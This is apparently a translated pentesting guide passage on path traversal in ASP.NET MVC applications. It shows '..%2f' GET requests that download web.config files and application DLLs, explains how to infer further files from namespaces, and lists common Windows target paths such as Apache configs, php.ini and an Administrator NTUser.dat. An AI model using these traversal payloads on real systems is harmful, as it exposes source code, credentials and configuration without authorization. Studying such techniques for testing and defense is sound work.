 Ovaj zahtev otkriva različite postavke i zavisnosti, kao što su:

* Verzija **EntityFramework**-a
* **AppSettings** za veb stranice, klijentsku validaciju i JavaScript
* Konfiguracije **System.web** za autentifikaciju i izvršno vreme
* Postavke modula **System.webServer**
* Veze skupova za izvršno vreme za brojne biblioteke poput **Microsoft.Owin**, **Newtonsoft.Json** i **System.Web.Mvc**

Ove postavke ukazuju da se određene datoteke, poput **/bin/WebGrease.dll**, nalaze unutar fascikle /bin aplikacije.

### **Datoteke u korenskom direktorijumu**

Datoteke koje se nalaze u korenskom direktorijumu, poput **/global.asax** i **/connectionstrings.config** (koje sadrže osetljive lozinke), su ključne za konfiguraciju i rad aplikacije.

### **Prostori imena i Web.Config**

MVC aplikacije takođe definišu dodatne **web.config datoteke** za određene prostore imena kako bi se izbeglo ponavljanje deklaracija u svakoj datoteci, kao što je prikazano zahtevom za preuzimanje druge **web.config** datoteke.

```markup
GET /download_page?id=..%2f..%2fViews/web.config HTTP/1.1
Host: example-mvc-application.minded
```

### **Preuzimanje DLL-ova**

Pomen o prilagođenom namespace-u ukazuje na DLL pod nazivom "**WebApplication1**" koji se nalazi u direktorijumu /bin. Nakon toga, prikazan je zahtev za preuzimanje **WebApplication1.dll** datoteke:

```markup
GET /download_page?id=..%2f..%2fbin/WebApplication1.dll HTTP/1.1
Host: example-mvc-application.minded
```

Ovo ukazuje na prisustvo drugih bitnih DLL-ova, poput **System.Web.Mvc.dll** i **System.Web.Optimization.dll**, u direktorijumu /bin.

U scenariju gde DLL uvozi namespace pod nazivom **WebApplication1.Areas.Minded**, napadač može zaključiti postojanje drugih web.config fajlova na predvidljivim putanjama, kao što su **/area-naziv/Views/**, koji sadrže specifične konfiguracije i reference na druge DLL-ove u /bin folderu. Na primer, zahtev za **/Minded/Views/web.config** može otkriti konfiguracije i namespace-ove koji ukazuju na prisustvo druge DLL datoteke, **WebApplication1.AdditionalFeatures.dll**.

### Uobičajeni fajlovi

Sa [ovog](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/) mesta

```
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
```